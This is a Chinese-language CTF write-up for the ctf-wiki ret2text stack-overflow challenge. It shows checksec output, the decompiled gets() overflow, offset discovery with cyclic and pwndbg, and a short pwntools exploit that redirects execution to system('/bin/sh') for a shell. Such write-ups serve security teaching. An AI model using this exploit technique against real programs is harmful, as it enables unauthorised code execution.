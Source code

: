 ```yaml
---
layout: post
title: CTF-PWN实例（ret2text）
categories: 
 - CTF
 - PWN
 - 二进制
permalink: /pwn/1
nocomments: true  # Disable the comment box. This is EasyBook feature
typora-root-url: ..\_site
---
```


# CTF-PWN实例（ret2text）

## 题目地址：

https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2text

## 程序保护：

```shell
$ checksec ret2text
```

```shell
	Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

这里和上一题唯一的区别在于开启了NX保护，因此我们不能在堆栈中写入shellcode。

## 解题：

### 一、IDA分析程序溢出点

IDA分析main函数：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("There is something amazing here, do you know anything?");
  gets((char *)&v4);
  printf("Maybe I will tell you next time !");
  return 0;
}
```

这里依旧是gets()函数造成溢出。

### 二、cyclic和pwndbg判断偏移量

```shell
$ cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
$ gdb ret2text
........
pwndbg> r
Starting program: /home/dtuncle/ctf-challenges/pwn/stackoverflow/ret2text/bamboofox-ret2text/ret2text 
There is something amazing here, do you know anything?
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
Maybe I will tell you next time !
Program received signal SIGSEGV, Segmentation fault.
0x62616164 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────[ REGISTERS ]────────────────────────────────────
 EAX  0x0
 EBX  0x0
 ECX  0xffffffff
 EDX  0xf7fb6870 (_IO_stdfile_1_lock) ◂— 0
 EDI  0xf7fb5000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x1d /* 0x1b1db0 */
 ESI  0xf7fb5000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x1d /* 0x1b1db0 */
 EBP  0x62616163 ('caab')
 ESP  0xffffcfa0 ◂— 'eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
 EIP  0x62616164 ('daab')
─────────────────────────────────────[ DISASM ]──────────────────────────────────────
Invalid address 0x62616164

──────────────────────────────────────[ STACK ]──────────────────────────────────────
00:0000│ esp  0xffffcfa0 ◂— 'eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
01:0004│      0xffffcfa4 ◂— 'faabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
02:0008│      0xffffcfa8 ◂— 'gaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
03:000c│      0xffffcfac ◂— 'haabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
04:0010│      0xffffcfb0 ◂— 'iaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
05:0014│      0xffffcfb4 ◂— 'jaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
06:0018│      0xffffcfb8 ◂— 'kaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
07:001c│      0xffffcfbc ◂— 'laabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
────────────────────────────────────[ BACKTRACE ]────────────────────────────────────
 ► f 0 62616164
   f 1 62616165
   f 2 62616166
   f 3 62616167
   f 4 62616168
   f 5 62616169
   f 6 6261616a
   f 7 6261616b
   f 8 6261616c
   f 9 6261616d
   f 10 6261616e
Program received signal SIGSEGV (fault address 0x62616164)
pwndbg> quit
$ cyclic -l 0x62616164
112
```

偏移量依然是112，这些例子主要是为了区分各种不同的保护机制，所以重点都不在于找出溢出的偏移，而是对应的保护机制如何利用获取到shell。

### 三、编写EXP

思路：

在这里明显不能直接在.bss写入shellcode，所以我们先在程序内查找是否能找到system函数，是否可以直接利用。

![](/img/post1img/dingweiSYS.jpg)

在0x0804863a这个地址将“/bin/sh”作为参数压入栈，并且下一步调用了_system函数，这就是最原始的shellcode。所以这一题很简单，只需要将返回地址覆盖成0x0804863A这个地址就行了。

exp代码：

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *

p = process('./ret2text')

p.sendline('a'*112+p32(0x0804863A))   #p32()是将数字转换成字符串，这样写入到栈中会成为地址

p.interactive()

```

## 总结

这一题本来存在NX保护，但是由于程序本身存在system函数而且可以直接利用所以此题会显得特别简单。但是当没有可利用的system函数时将会是另外的利用方法，之后会介绍。